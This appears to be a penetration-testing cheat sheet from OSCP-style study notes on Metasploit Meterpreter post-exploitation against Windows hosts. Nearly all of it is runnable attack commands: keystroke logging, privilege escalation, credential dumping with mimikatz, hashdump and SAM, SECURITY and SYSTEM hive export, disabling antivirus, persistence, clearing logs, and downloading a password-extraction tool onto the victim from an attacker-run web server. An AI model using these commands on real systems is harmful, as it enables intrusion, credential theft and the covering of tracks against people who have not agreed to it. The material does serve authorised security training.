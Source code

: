**Post-exploitation** - [getting_meterpreter_shell](https://sushant747.gitbooks.io/total-oscp-guide/getting_meterpreter_shell.html)
	
*meterpreter shell:*  [meterpreter cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

	ps; run migrate -p 1337
	use post/   		 			#tab for completion
	background -l            			#List background sessions
	background -i 1          			#Connect back to a background session
	execute -f c:\\windows\temp\exploit.exe		#run .exe on target
	getsystem					#try privesc thru meterpreter
	keysscan_start; keyscan_dump; keyscan_stop
	
*Privesc thru meterpreter post module:*

	Ctr-z
	Background session 1? [y/N]  y
	use exploit/windows/local/service_permissions
	use post/windows/gather/credentials/vnc
	use post/windows/gather/credentials/gpp
	load mimikatz -> wdigest
	run post/multi/recon/local_exploit_suggester
	run post/windows/gather/smart_hashdump			#Automated dumping of sam file, tries to esc privileges etc
	run post/windows/gather/credential_collector 
	
	run post/windows/gather/win_privs			#show privileges of current user
	run post/windows/gather/local_admin_search_enum
	run post/windows/gather/enum_shares
	run post/windows/gather/enum_snmp
	run post/windows/gather/enum_applications
	run post/windows/gather/enum_logged_on_users
	run post/windows/gather/checkvm
	sessions -l		#show sessions
	sessions -i 1		#connect to it again
	
*Requires administrative rights [rooted]:*

	killav	
	hashdump
	persistence		#(https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/)
	# using WCE to get cleartext passwd
	cd /usr/share/windows-resources/wce; python3 -m http.server 9000   
	PS victim: Invoke-WebRequest -Uri http://10.10.10.160:9000/wce64.exe -OutFile wce64.exe
	PS victim: . .\wce64.exe -w		#Retrieving user passwords in cleartext 
	meterpreter> run clearlogs | clearev		#clear log
	
	C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
	C:\> reg.exe save hklm\security c:\windows\temp\security.save
	C:\> reg.exe save hklm\system c:\windows\temp\system.save
	# use secretdump.py after transfer 3 files above.
	kali: secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
